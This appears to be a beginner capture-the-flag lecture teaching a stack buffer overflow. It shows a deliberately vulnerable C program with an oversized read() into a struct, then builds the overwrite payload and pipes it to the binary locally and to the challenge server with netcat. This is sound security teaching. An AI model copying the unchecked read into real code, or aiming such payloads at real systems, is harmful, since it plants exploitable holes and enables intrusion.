 # Brewing of Pwntions: Stack overflow lecture 2

Hello wizards and witches! Welcome to the second lecture of Introduction to Pwntions. 
Our house elf Pwnie's side effects from last lecture have worn off, and he is
ready for another round of pwntions! This time we will look to another type of
_stack overflow_. Remember that more detailed information about stack overflows 
may be found in the second introductional lecture.

---

<br>

Let's get straight to the point! As mentioned, it is very useful to look at 
the source code:

```C
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

struct magical_spell {
    char name[32];
    int age;
    int is_awesome;
};

int main() 
{
    /* Declaring variables */
    struct magical_spell pwntion_spell;
    memset(&pwntion_spell, 0, sizeof(pwntion_spell));
    pwntion_spell.age = 1337000000;
    pwntion_spell.is_awesome = 0;
    
    /* Printing text to terminal */
    printf("Professor maritio_o:\n");
    printf("Tell me a pwntion spell name!\n");
    printf("Pwntion spell name:\n");
    printf("> ");

    /* Read 64 bytes of user input from terminal, 
	 * and put into pwntion.spell_name */
	read(STDIN_FILENO, pwntion_spell.name, 64);
    
    /* Printing text to terminal*/
    printf("%s\n", pwntion_spell.name);
    
    /* if statement*/
    if (pwntion_spell.age == 1337000000 && pwntion_spell.is_awesome == 1) {
        printf("Amazing! You did it, awesome student at school of wizardry!\n");
        system("cat flag.txt");
    } else {
        printf("Hmm, look's like Pwnie isn't telling you a word...\n");
    }

    return 0;
}
```

It is also super nice to draw an illustration of the stack frame for the source
code. Let's do that again: 
  
![Memory Layout](pwntion2_stackframe.png)

As in the previous lecture, we want to brew the pwntion so that Pwnie tells us 
his secret message. But this time the message is hidden another place. The 
secret message is hidden on the server in a file called _flag.txt_. The only
way to get the magical flag is to brew a pwntion that overwrites the _struct_ in 
the code so that the _if statement_ returns the content of the flag.txt file. 

Another strange magical word... _struct_... It's important to understand these 
crazy magical words for the pwntions to work. A struct allows us to combine 
several data items of different kinds into one structure under a specific name. 
This structure may be used several times in the C code, by using the name to make 
instances of the struct. These variables are in the same block of memory. For
instance, we may make a struct called **student**. Each student has a name, an
age and a wizardry school house, as illustrated in the snippet below. Read more 
about structs [here](https://www.tutorialspoint.com/cprogramming/c_structures.htm).

<details>
  <summary>struct example</summary><p>
	
```C
struct student {
    char name[64];
    int age;
    char house_name[100];
};
```
</p></details>

<br>

And what the magical beans is an _if statement_?!? If you read our Python tutorial
you should already know that this is. An if statement is used to
check a condition, and make an act depending on whether the condition is true or 
false. For instance, the snippet below checks if a **student** is part of the 
house Hufflepuff, and then print "Yaay!" if the student is part of Hufflepuff, 
or "Booo!" if the student is not. Read more about if statements 
[here](https://intellipaat.com/tutorial/c-tutorial/c-if-statement/).

<details>
  <summary>if statement example</summary><p>
  As you remember from the Python tutorial we can use if-statements to do comparisons and print out strings if something is true.
	
```python
if student.house_name == "Hufflepuff":
    print "Yaay!"
else:
    print "Booo!"
```

However, in C we cannot use the `==` operator to compare strings, we have to use a function called [strcmp](https://linux.die.net/man/3/strcmp) to CoMPare STRings.
To make matters confusing the `strcmp`-function returns `0` if the strings are equal, so we have to do the following:
```C
if(strcmp(student.house_name, "Hufflepuff") == 0) {
  printf("Yaay!\n");
} else {
  printf("Booo!\n");
}
```
</p></details>

<br>

Lastly, I want to mention what happens when the program runs `system("cat flag.txt");`.
In C programming, **system()** is a very easy and convenient way of running 
shell commands. Beware, it is _not_ a smart way, it is just easy. `cat flag.txt`
is a command that will paste the content of the file called `flag.txt`.

<details>
  <summary>Tip for running binaries that need files to run properly, locally on your machine</summary><p>
	
If you get an error saying `No such file or directory` like the snippet below, 
it means that the binary is missing a file on your system to run properly.

```
Professor maritio_o:
Tell me a pwntion spell name!
Pwntion spell name:
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@
1337000000
1
Amazing! You did it, awesome student at school of wizardry!
cat: flag.txt: No such file or directory
```

In the snippet, we see the error says `cat: flag.txt: No such file or directory`. 
That means that the program tries to run the `cat` command with `flag.txt` as a
parameter, which pastes the content of the flag.txt file into the terminal. The
solution is to make a file called _flag.txt_ on your computer, into the folder
that you run the binary from. It is nice to put in a dummy flag, so that you 
know it works as wanted.
</p></details><br>


<details>
  <summary>Read about another common system() command, /bin/sh</summary><p>

I want to mention what happens when a program runs `system("/bin/sh");`.
This system command is often used in pwn instead of pasting the flag into the 
terminal, so you would see it in the code instead of `system("cat flag.txt");`. 
In pwning, this particular piece of code is very well known. We call it **spawning a 
shell**. When a shell is spawned, you may interact with the system just like if
you where using your normal Linux terminal. This means that if you have the right
permissions, you may be able to read the files on the system. In pwn and CTFs,
you will often see that you find a task's flag in a file called `flag.txt`.
</p></details>

<br>

---

<br>

In the last lecture, we looked at overflowing values on the stack by inserting 
more data than the input buffer has room for. We will do the same in this lecture, 
but this time we have to overwrite the values in the struct and write the exact 
value we need to make the program print the flag. Therefore, we need to build the 
insert string to as following:

1. Find the amount of padding we need until the struct values start.
2. Set the `is_awesome` variable within the struct to be _True_.
3. Make sure that we do _NOT_ overwrite the age of the spell, because then the 
code will not accept the spell.

How to solve these steps:

1. We find the amount of padding by looking at the local variable that we 
insert the input into. By looking at the code, we see that it has room for 32 bytes
(31 bytes for your input and the last byte for the null byte that tells the program
it is the end of the variable). In other words, we need at least 32 bytes of padding.

2. In the code, we see that the `is_awesome` variable contains the value _0_. 
In programming, 0's and 1's are often used to represent True and False 
values. In this case we want to change from 0 to 1. However, it is not straight forward 
to send a number as input to the program. Because of this being a 32 bit program,
and the variable being an integer, we have to write the `1` as a 4 byte little endian 
integer. It must also be represented as a hexadecimal value, as that is how it is stored 
on the stack. That results in this input: `\x01\x00\x00\x00`.

<details><summary>Writing integers in 32 bit programs represented as hexadecimal values</summary><p>

Overwriting the `is_awesome` variable isn't as straight-forward as 
simply sending 32 A's followed by a 1 like this:
```python
r.sendline("A"*32 + str(1))
```
We have to overwrite the number using a 4-byte little-endian representation of the
number. The value must be 4 bytes, since `int`s are 4-byte in size. Little-endian 
refers to the way values are laid out in system memory. For 32-bit x86, values are 
stored starting with the *least significant byte* first! See [this article on endianness](https://en.wikipedia.org/wiki/Endianness#Little) for more information.

When overwriting data like this, it's common to represent data using hex strings, 
like this:
```python
a = "\x41\x41\x41\x41" # the string AAAA
b = "\xef\xbe\xad\xde"  # the value 0xdeadbeef
```
Note that we start with `\xef`, not `\xde`, since the values are stored in little-endian 
format.
Thus, to represent the value `1` as a 4-byte little-endian value we write it like this: 
`\x01\x00\x00\x00`.

This operation is very common when doing exploit development, so pwntools has some nice 
helper functions for making things easier. These are called `p16`, `p32`, and `p64`, and turns numbers into 16, 
32, and 64 bit little-endian byte values, respectively. The p stands for `packed`.
```python
r.sendline("A"*32 + p32(1))
```
</p></details>

<br>

3. As we must _NOT_ overwrite the age of the spell, it must remain _1.337.000.000_
years old, and we must insert the hexadecimal value of that into the stack as well.
By Googling or using Python, we find out that the hex value is _0x4fb10040_.
As for the `is_awesome` variable, it is important to write the age in hexadecimal 
and little endian with 4 bytes, in order for the program to read it as a valid number,
so we end up with the following value: `\x40\x00\xb1\x4f`.
 

<details>
  <summary>Fetching hexadecimal values in terminal using Python</summary><p>
	
```
$ python
>>> hex(1337000000)
'0x4fb10040'
```
</p></details>

<br>

With that information we can build an input string like this, 
```
"A" * 32 + "\x40\x00\xb1\x4f" + "\x01\x00\x00\x00"
```

... and insert it to our local program to test it:
```
$ python -c 'print "A" * 32 + "\x40\x00\xb1\x4f" + "\x01\x00\x00\x00"' | ./pwn_intro2 
```

If it works locally on your machine, you should be ready for the exam! A hot tip
for the exam is to replace the binary file on your machine with the _netcat_ (nc)
url and port. Then you insert the input to the server. Poke us on Discord or 
come by the TG:Hack area in the Creative zone for help!

<details>
  <summary>netcat example</summary><p>

```
$ python -c 'print "A" * 32 + "\x40\x00\xb1\x4f" + "\x01\x00\x00\x00"' | nc url.here.tghack.no 1337
```
</p></details>

<br>

Go on, build the magical spell to overwrite the struct with the right value in
your magical spell buffer, and fetch the flag! It is the second task of the exam. 
Good luck!

